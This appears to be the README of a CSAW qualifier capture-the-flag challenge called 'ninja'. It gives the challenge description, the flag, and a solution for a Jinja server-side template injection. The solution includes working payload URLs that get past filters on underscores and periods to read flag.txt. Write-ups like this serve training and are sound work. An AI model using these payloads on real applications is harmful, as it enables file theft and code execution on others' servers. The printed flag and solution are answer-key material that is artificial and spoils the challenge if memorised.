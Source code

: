 # ninja
Repo containing an SSTI challenge for the upcoming CSAW quals
(was SSTI earlier)


# Challenge Description

Hey guys come checkout this website i made to test my ninja-coding skills. 

# Flag

`flag{m0mmy_s33_1m_4_r34l_n1nj4}`

# Solution
Simple textbox allows SSTI, one might check it using `{{7}}`, once you try playing around with basic SSTI techniques, you are showed that common techniques can't be used to exploit this ssti since periods(`.`), underscores('|'), or the word config is banned, so you must try to circumvent these filters. Your end goal is to read flag.txt. The real part of the exploit lies in the fact that you can supply another arguement(the `underscore` arguement in the example payload) that isn't checked by jinja. 

# Example payload 

If underscores were allowed :-  
`http://localhost:5000/submit?value={{''.__class__.__mro__[2].__subclasses__()[40] ('flag.txt').read() }} `

But since they aren't :-

```
http://localhost:5000/submit?value={{ (('' | attr( [request.args.underscore*2, 'class'  ,request.args.underscore*2] | join) | attr( [request.args.underscore*2, 'mro'  ,request.args.underscore*2] | join  ) )[2] | attr([request.args.underscore*2, 'subclasses'  ,request.args.underscore*2] | join)())[40]  ('flag.txt').read() }}&underscore=_
```
